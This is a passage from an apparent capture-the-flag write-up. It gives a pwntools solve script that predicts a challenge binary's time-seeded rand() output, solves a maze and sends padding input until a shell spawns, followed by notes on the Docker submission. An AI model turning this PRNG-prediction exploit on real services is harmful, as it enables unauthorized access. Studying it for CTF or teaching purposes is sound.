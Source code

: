 
from pwn import *
from ctypes import CDLL
import time

libc = CDLL("./libc.so.6")


def callrand():
    return libc.rand() % 1213

elf = context.binary = ELF("./challenge")

# seed with the current time right before starting the program
libc.srand(int(time.time())) 
p = process()

# simulate rand() calls in generate_maze()
for _ in range(590):
    callrand()

callrand() # the initial random message it sends

p.recvuntil(b"Which would you like to do?")
p.sendline(b"a")
p.recvuntil(b"You cast arcane eye and send your summoned magical eye above the maze.")

maze = p.recvuntil(b"You", drop=True).decode().split("\n")
maze = [i for i in maze if "." in i or "#" in i] # scuffed method to get maze
maze = maze[1:]

solver = MazeSolver(maze)
solution = solver.solve(0, 1)

lastmove = solution[-1]

for moves in solution[:-1]: # do all moves except last
    callrand() # simulate rand() call in the random message we get after every input
    p.sendline(moves)

nextrand = callrand()
while not nextrand == 1212:
    p.sendline(b"x") # send invalid input to call rand()
    nextrand = callrand()

p.sendline(lastmove)

p.interactive()
{{< /code >}}


Running the final script we indeed get a shell, and solve the challenge!

{{< image src="./img/shell.png" alt="" position="center" style="border-radius: 5px;" >}}

To recieve our points, we had to submit a `.tar` file with a Dockerfile and the solve script, which should run `./submitter` after getting a shell, and print the flag. However, since I didn't use any `p.recv()` after sending the moves, the buffer would crash the docker and the submission would fail. Fortunately, one of my teammates [Zafirr](https://github.com/zafirr31) submitted with `p.sendlineafter()` to overcome the issue and we got the points :)
